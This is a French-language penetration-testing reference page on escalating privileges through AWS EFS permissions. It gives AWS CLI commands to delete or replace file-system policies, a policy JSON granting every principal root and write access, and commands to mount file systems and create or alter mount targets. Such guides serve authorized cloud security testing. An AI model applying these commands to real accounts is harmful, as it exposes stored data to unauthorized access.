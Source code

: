 # AWS - EFS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## EFS

Plus d'informations **sur EFS** dans :

{{#ref}}
../../aws-services/aws-efs-enum.md
{{#endref}}

N'oubliez pas que, pour monter un EFS, vous devez être dans un sous-réseau où l'EFS est exposé et y avoir accès (security groups). Si c'est le cas, par défaut, vous pourrez toujours le monter ; cependant, s'il est protégé par des IAM policies, vous devez disposer des permissions supplémentaires mentionnées ici pour y accéder.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Avec l'une de ces permissions, un attaquant peut **modifier la file system policy** pour **vous donner l'accès** à celle-ci, ou simplement **la supprimer** afin que **l'accès par défaut** soit accordé.

Pour supprimer la policy:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Pour le changer :
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Avec cette permission un attaquant pourra **monter l'EFS**. Si la permission d'écriture n'est pas accordée par défaut à tous ceux qui peuvent monter l'EFS, il n'aura que **l'accès en lecture**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Les permissions supplémentaires `elasticfilesystem:ClientRootAccess` et `elasticfilesystem:ClientWrite` peuvent être utilisées pour **écrire** à l'intérieur du système de fichiers après son montage et pour **accéder** à ce système de fichiers **en tant que root**.

**Impact potentiel :** Privesc indirecte en localisant des informations sensibles dans le système de fichiers.

### `elasticfilesystem:CreateMountTarget`

Si un attaquant se trouve à l'intérieur d'un **sous-réseau** où **aucun mount target** de l'EFS n'existe, il peut simplement **en créer un dans son sous-réseau** avec ce privilège :
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impact potentiel :** Privesc indirect en localisant des informations sensibles dans le système de fichiers.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Dans un scénario où un attaquant découvre que l'EFS a un mount target dans son sous-réseau mais **aucun security group n'autorise le trafic**, il pourrait simplement **changer cela en modifiant les security groups sélectionnés** :
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impact potentiel:** Privesc indirect en localisant des informations sensibles dans le système de fichiers.

{{#include ../../../../banners/hacktricks-training.md}}
